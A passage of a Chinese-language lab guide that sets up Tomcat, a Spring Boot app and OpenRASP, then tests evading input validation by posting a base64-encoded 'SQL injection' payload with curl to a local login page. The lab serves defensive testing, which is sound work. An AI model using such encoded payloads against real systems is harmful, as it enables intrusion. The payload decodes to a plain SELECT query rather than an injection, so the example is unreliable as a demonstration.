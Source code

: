 ### 3.1 实验环境搭建

#### 3.1.1 环境准备

1. **操作系统**：Linux（如Ubuntu 20.04）
2. **Web服务器**：Apache Tomcat 9.0
3. **应用程序**：Java Web应用程序（如Spring Boot）
4. **RASP工具**：OpenRASP

#### 3.1.2 安装步骤

1. **安装Java和Tomcat**
   ```bash
   sudo apt update
   sudo apt install openjdk-11-jdk
   wget https://downloads.apache.org/tomcat/tomcat-9/v9.0.50/bin/apache-tomcat-9.0.50.tar.gz
   tar -xzf apache-tomcat-9.0.50.tar.gz
   cd apache-tomcat-9.0.50/bin
   ./startup.sh
   ```

2. **部署Spring Boot应用程序**
   ```bash
   git clone https://github.com/example/spring-boot-app.git
   cd spring-boot-app
   ./mvnw clean package
   cp target/spring-boot-app.war /path/to/tomcat/webapps/
   ```

3. **安装OpenRASP**
   ```bash
   wget https://rasp.baidu.com/download/openrasp/release/1.3.0/openrasp-v1.3.0-java.zip
   unzip openrasp-v1.3.0-java.zip
   cd openrasp-v1.3.0-java
   ./install.sh -a /path/to/tomcat
   ```

### 3.2 攻击步骤

#### 3.2.1 绕过输入验证

1. **启动Tomcat和Spring Boot应用程序**
   ```bash
   /path/to/tomcat/bin/startup.sh
   ```

2. **发送编码后的SQL注入payload**
   ```bash
   curl -X POST http://localhost:8080/login -d "username=admin&password=U0VMRUNUICogRlJPTSB1c2VycyBXSEVSRSB1c2VybmFtZSA9ICdhZG1pbicgQU5EIHBhc3N3b3JkID0gJ3Bhc3N3b3JkJw=="
   ```

3. **观察RASP的响应**
   - 如果RASP未检测到攻击，返回正常响应。
   - 如果RASP检测到攻击，返回阻断响应。
